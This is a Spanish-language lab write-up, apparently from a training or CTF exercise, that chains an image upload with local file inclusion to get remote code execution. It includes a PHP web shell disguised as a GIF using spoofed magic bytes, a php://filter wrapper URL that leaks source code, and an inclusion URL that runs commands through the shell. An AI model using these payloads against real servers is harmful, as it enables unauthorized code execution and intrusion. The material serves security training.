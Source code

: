 # LFI: File Upload -> RCE 👩‍💻

La página web que vulnerarmos es

![web.PNG](./assets/06-Sexto/01-web.PNG)

* **(1)** Este apartado sirve para subir una **imagen de perfil**
* **(2)** Notamos que se referencia a un Archivo `.php` 

---

Para poder derivar de `Subir un Archivo` a un `RCE` existen múltiple técnicas, en este laboratorio cambiaré los `magic bytes` de un archivo.

```
Con esto 'engañaremos' al servidor para hacerle creer que subimos un archivo gif, pero, en realidad tendrá código PHP
```

---

* **shell.gif**

```php
GIF8;
<?php system($_GET['cmd']); ?>
```

Subiremos el archivo en el apartado `Profile Settings` 

---

Para saber el **directorio** en el que se suben las imagenes veremos 

<p align="center">
    <img src="./assets/06-Sexto/02-network.PNG">
</p>

* Tenemos el **archivo .php** que se encarga de la subida de archivos.

---

Ahora, usaremos un `wrapper` para obtener el contenido del archivo `upload.php`

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=upload.php`

<p align="center">
    <img src="./assets/06-Sexto/03-data.PNG">
</p>

---

Si decodeamos la cadena en **bas64 obtenida** tenemos

```bash
echo "[Base64 Data]" | base64 -d;echo
```

<p align="center">
    <img src="./assets/06-Sexto/04-folder.PNG">
</p>

* Sabemos que el directorio es `./profile_images/`
---

Accedemos a la imagen ubicada en ese directorio y listamos el contenido de la raiz

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=./profile_images/shell.gif&cmd=ls /`

<p align="center">
    <img src="./assets/06-Sexto/05-flag.PNG">
</p>

---

Por último, leemos el contenido del archivo anterior

<p align="center">
    <img src="./assets/06-Sexto/06-file.PNG">
</p>